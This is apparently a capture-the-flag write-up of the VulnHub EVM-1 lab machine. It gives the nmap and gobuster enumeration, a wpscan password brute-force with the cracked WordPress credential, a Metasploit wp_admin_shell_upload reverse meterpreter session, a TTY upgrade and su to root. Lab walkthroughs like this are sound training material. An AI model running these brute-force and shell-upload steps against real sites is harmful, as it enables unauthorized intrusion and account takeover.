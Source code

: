 ```yaml
---
title: "VulnHub: EVM-1"
date: "2019-11-07"
author: frosty
categories:
  - "writeups"
tags:
  - "boot2root"
  - "vulnhub"
---
```


## Enumeration

Initially, we must discover what IP the target received from the DHCP server. We can use `netdiscover` to identify the IP address. From there, we perform a full port scan to identify available services. There are many ports open, so I will start with port 80 HTTP.

```sh
$ netdiscover -r 192.168.147.0/24
$ nmap -p- -sV 192.168.147.3
```

![Image](assets/img/writeups/vulnhub/evm-1/1-enumeration.png)

* * *

## Enumerating HTTP

![Image](assets/img/writeups/vulnhub/evm-1/2-landing-page-1024x686.png)

The home page is a default Apache landing page, although there is a hint on where we should go next, suggesting that that we look at `/wordpress`.

![Image](assets/img/writeups/vulnhub/evm-1/3-wp-landing-page.png)

When viewed, we see a Wordpress page setup, however notice that it is text only. Perhaps all the content has moved elsewhere. We can gather some small information, a potential username `c0rrupt3d_brain`. I say a potential username because we have not confirmed that it still exists, or that it has remained unchanged.

We can perform a `gobuster` scan to identify possible pages, and indeed find that the wordpress pages have a 301 redirect HTTP response.

```sh
$ gobuster dir \
    dir \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    -u http://192.168.147.3/wordpress
```

![Image](assets/img/writeups/vulnhub/evm-1/gobuster.png)

Instead, we can use `wpscan` to enumerate the wordpress service. Firstly, we enumerate the users. Following this, we can use wpscan to try and brute force the password.

```sh
$ wpscan --url http://192.168.147.3/wordpress --enumerate u
[...]
[i] User(s) Identified:
[+] c0rrupt3d_brain

$ wpscan --url http://192.168.147.3/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
[...]
[SUCCESS] - c0rrupt3d_brain / 24992499
```

![Image](assets/img/writeups/vulnhub/evm-1/3-wpscan-eusers.png)

![Image](assets/img/writeups/vulnhub/evm-1/4-wpscan-brute.png)

* * *

## Initial Shell

We'll use the metasploit framework `wp_admin_shell_upload` module for this and open a meterpreter session relatively easily:

```sh
$ msfconsole
> use exploit/unix/webapp/wp_admin_shell_upload
> show options
> set rhosts 192.168.147.3
> set targeturi /wordpress
> set username c0rrupt3d_brain
> set password 24992499
> set lhost 192.168.147.4
> exploit
```

![Image](assets/img/writeups/vulnhub/evm-1/5-msf.png)

![Image](assets/img/writeups/vulnhub/evm-1/6-id.png)

* * *

## Escalating Privileges

To start, we'll jump into a TTY shell, which we'll need to upgrade. We can do this with the following commands:

```sh
$ python -c 'import pty; pty.spawn("/bin/bash");'
$ stty raw -echo
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
```

From here, privielge escalation requires some enumeration. We should check the `/home` directory for some interesting files. In this case we discover a `/root3d` directory. Within this there is a hidden file which contains the root password. To switch to the root user, we issue the `$ su` command, and input the identified password. This provides the root shell!

![Image](assets/img/writeups/vulnhub/evm-1/7-enumerate.png)

![Image](assets/img/writeups/vulnhub/evm-1/9-root.png)
